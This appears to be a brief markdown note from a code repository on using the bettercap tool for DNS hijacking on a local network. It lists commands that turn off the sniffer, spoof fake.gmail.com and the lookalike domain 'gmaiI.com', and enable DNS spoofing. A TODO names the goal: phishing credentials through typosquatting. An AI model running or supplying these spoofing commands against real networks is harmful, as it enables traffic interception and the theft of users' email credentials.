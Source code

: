 # Betterap

# DNS Hijacking

Ensure to turn off the sniffer to perform DNS hijack.

```
net.sniff off
```

TODO: Perform typo squadding to phish credentials in a local network.

```
set dns.spoof.domains fake.gmail.com

set dns.spoof.domains gmaiI.com
```

```
dns.spoof on
```